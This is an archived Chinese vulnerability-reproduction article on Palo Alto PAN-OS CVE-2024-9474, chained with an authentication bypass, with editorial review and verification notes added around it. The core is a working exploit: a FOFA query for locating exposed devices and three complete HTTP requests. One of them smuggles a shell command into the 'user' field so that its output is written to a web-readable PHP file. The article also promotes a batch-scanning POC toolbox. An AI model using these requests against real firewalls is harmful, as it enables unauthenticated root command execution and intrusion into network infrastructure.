





#  Palo Alto Networks PAN-OS存在远程命令执行漏洞CVE-2024-9474 附POC   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：PAN-OS管理Web
- 本文讨论：CVE-2024-9474；请求另含认证绕过链前置
- 版本、权限与配置前提：描述要求管理员，实际以X-PAN-AUTHCHECK off创建会话；版本仅产品名及图片
- 资料类型：漏洞链PoC摘要；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 标题把单一9474呈现为前台RCE，PoC认证绕过部分未单独标CVE-2024-0012或适用条件
- 影响版本无文本；响应全截图，固定Content-Length需重算
- 广告及相关文章易污染实体索引
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 链前置CVE和各分支修复版本需官方与原研究确认
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

2024-12-10更新  南风漏洞复现文库   2024-12-10 15:50  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Palo Alto Networks PAN-OS简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Palo Alto Networks PAN-OS  
## 2.漏洞描述  
  
Palo Alto Networks PAN-OS是美国Palo Alto Networks公司的一套为其防火墙设备开发的操作系统。Palo Alto Networks PAN-OS存在安全漏洞，该漏洞源于存在权限提升漏洞，允许有权访问管理Web界面的PAN-OS管理员以root权限在防火墙上执行操作。  
  
CVE编号:CVE-2024-9474  
  
CNNVD编号:CNNVD-202411-2345  
  
CNVD编号:  
## 3.影响版本  
  
Palo Alto Networks PAN-OS  
  
  
  
Palo Alto Networks PAN-OS存在远程命令执行漏洞  
## 4.fofa查询语句  
  
icon_hash="873381299"  
## 5.漏洞复现  
  
漏洞数据包，数据包会返回cookie值  
```http
POST /php/utils/createRemoteAppwebSession.php/watchTowr.js.map HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent:Mozilla/5.0(Macintosh;IntelMac OS X 10_15_7)AppleWebKit/537.36(KHTML, like Gecko)Chrome/108.0.0.0Safari/537.36
X-PAN-AUTHCHECK: off
Host: xx.xx.xx.xx
Content-Length:98
Connection: close

user=`echo $(id) > /var/appweb/htdocs/unauth/gOFQTs.php`&userRole=superuser&remoteHost=&vsys=vsys1
```  
  
  
```http
GET /index.php/.js.map HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Cookie: PHPSESSID=第一步获取的cookie
X-PAN-AUTHCHECK: off
Host: xx.xx.xx.xx
Connection: close
```  
  
  
  
获取执行结果  
```http
GET /unauth/gOFQTs.php HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Cookie: PHPSESSID=第一步获取的cookie
X-PAN-AUTHCHECK: off
Host: xx.xx.xx.xx
Connection: close
```  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
官方补丁 https://security.paloaltonetworks.com/CVE-2024-9474  
## 8.往期回顾  
  
  
[Zabbix api_jsonrpc.php接口存在SQL注入漏洞CVE-2024-42327 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487930&idx=1&sn=589b3837a2dc8ff72e861b99f6947f5d&scene=21#wechat_redirect)  
  
  
[九思OA软件jsoa/dl.jsp存在任意文件读取漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487916&idx=1&sn=636bdfae861e5c01986212c20de3bdd8&scene=21#wechat_redirect)  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）


## 2026-10-03 公开验证资料补充

本页三步请求分别创建会话、消费带命令的用户名、读取生成文件，属于两个漏洞组成的链。[0012 CNA](https://cveawg.mitre.org/api/cve/CVE-2024-0012) 是管理Web认证绕过；[9474 CNA](https://cveawg.mitre.org/api/cve/CVE-2024-9474) 是原本要求管理员的权限提升。X-PAN-AUTHCHECK及特殊路径处理属于前者，用户名进入系统命令属于后者，不应把9474单独写成所有部署均匿名可用。

两项在11.2、11.1、11.0、10.2分支共同的记录边界是11.2.4-h1、11.1.5-h1、11.0.6-h1、10.2.12-h2；9474还影响10.1分支至10.1.14-h6之前，而0012记录将10.1列为不受影响。更细热修复需分别查[0012公告](https://security.paloaltonetworks.com/CVE-2024-0012)和[9474公告](https://security.paloaltonetworks.com/CVE-2024-9474)，不能只用一个大版本阈值。

现有请求会执行命令并向Web目录写文件，也创建会话。读取输出文件是链条结果检查，状态码或取得Cookie本身不证明root命令成功。此次只完整阅读现有报文与CNA字段，未查看响应截图像素，未请求设备。

原报文中的固定Content-Length及Cookie占位值保持原样，没有重新计算或替换。源码/报文可完整静态审阅与响应截图尚未视检是不同事实；本库未观察到root结果，也不把来源三步链简化为9474单洞匿名RCE。
